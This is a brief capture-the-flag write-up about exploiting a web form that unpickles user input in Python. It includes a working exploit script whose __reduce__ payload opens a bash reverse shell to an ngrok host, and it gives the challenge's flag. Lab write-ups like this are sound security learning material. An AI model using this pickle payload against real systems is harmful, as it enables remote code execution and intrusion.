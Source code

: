 

Page opened to two simple boxes:

![image](https://user-images.githubusercontent.com/80063008/136170679-cd9502f4-fbda-48cb-a3d2-973b85044d91.png)

Entering random text gets me an error

![image](https://user-images.githubusercontent.com/80063008/136170774-6e12ee62-2b02-478d-b882-5d864fb91848.png)

While googling that I find it is given by a python module called Pickle. Which makes sense considering the title of the challenge references something else that's pickled. Googled around until I found a python script to help https://davidhamann.de/2020/04/05/exploiting-python-pickle/.

I modified it with my own unpickled script to get a reverse shell. Gets me a base64 string I put into the box and while having ngrok and netcat listening, I got a reverse shell then read the flag.

```python
    1 	import pickle
    2 	import base64
    3 	import os
    4 	
    5 	
    6 	class RCE:
    7 		def __reduce__(self):
    8 			return (os.system, ('bash -c "bash -i >& /dev/tcp/2.tcp.ngrok.io/11352 0>&1"',))
    9 	
   10 	
   11 	if __name__ == '__main__':
   12 		pickled = pickle.dumps(RCE())
   13 		print(base64.urlsafe_b64encode(pickled))
```

Flag: SNYK{6854ecb17f51afdf2610f741dd07bd6099c616e4ab1a403eb14fa8639e1fb0af}

